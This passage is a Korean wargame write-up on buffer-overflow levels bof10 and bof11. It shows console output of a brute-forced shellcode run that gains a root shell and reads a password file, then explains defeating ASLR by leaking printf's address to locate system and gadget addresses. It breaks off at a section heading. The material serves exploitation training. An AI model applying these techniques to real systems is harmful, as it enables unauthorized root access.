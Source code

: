 14. 그러면 얼마간의 시간이 지난 후에 다음과 같이 **1.5%** 의 확률로 루트 쉘을 탈취할 수 있다. 

    ```console
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffa601e8]!
    (env:SHELLCODE -> 0xffa60c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xff9af138]!
    (env:SHELLCODE -> 0xff9b0c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffc633c8]!
    (env:SHELLCODE -> 0xffc64c37)
    # id
    uid=0(root) gid=1011(bof10) groups=1011(bof10)
    # cat bof11.pw
    ```
    
# bof11 설명 (Memory leak)

1. `bof10` 과는 달리 `bof11` 에서는 `bof9` 처럼 스택에 실행권한이 존재하지 않는다. 그래서 `NOP` 코드를 **13만 바이트**나 넣어서 브루트 포싱하는 방법은 더 이상 통하지 않는다. 스택에 실행권한도 없고 **ASLR** 도 활성화되어 있어서 **RTL** 기법도 어려울 것 같다. 하지만 메모리의 데이터를 유출시킬 수 있다는 조건이 있을 때 **ASLR** 이 활성화되어있어도 **RTL** 을 적용할 수 있다.

    - 실제로 블루투스 취약점 **blueborne** 의 힙 오버플로우 취약점 **CVE-2017-0781** 은 쉘을 탈취할 수 있는 RCE(Remote Command Execution) 취약점인데, 이 취약점을 익스플로잇 하기 위해서 ASLR 을 우회하기 위하여 **CVE-2017-0785** 취약점을 사용하여 메모리 데이터를 유출시켰다. 

2. 그래서 `bof11` 은 메모리 유출 취약점이 존재해서 `printf` 함수의 주소값을 유출 시킨다는 설정이다. 다음과 같이 `bof11` 은 `printf` 함수의 주소값을 계속 유출 시키고 있고 **ASLR** 때문에 그 주소값이 계속 달라진다. 

    ```console
    $ ./bof11
    printf() address : 0x7f26ea000800
    abc
    Hello abc!
    $ ./bof11
    printf() address : 0x7f753d893800
    abc
    Hello abc!
    $ ./bof11
    printf() address : 0x7fb4c41f8800
    abc
    Hello abc!
    ```

3. `bof9` 처럼 `bof11` 에서는 `system` 주소, `/bin/sh` 주소, `pop rdi ; ret` 주소가 필요하다. ASLR 때문에 각각의 주소값을 정확하게 알 수는 없으나 `printf` 함수의 주소값이 항상 유출된다는 조건이 있기 때문에 각각의 주소값과 `printf` 주소값과의 상대적 거리만 계산하면 ASLR 을 우회할 수 있다. **왜냐하면 `libc` 라이브러리 내부 함수끼리의 상대적 거리는 항상 똑같기 때문이다.**

## printf 와 system 함수와의 거리 
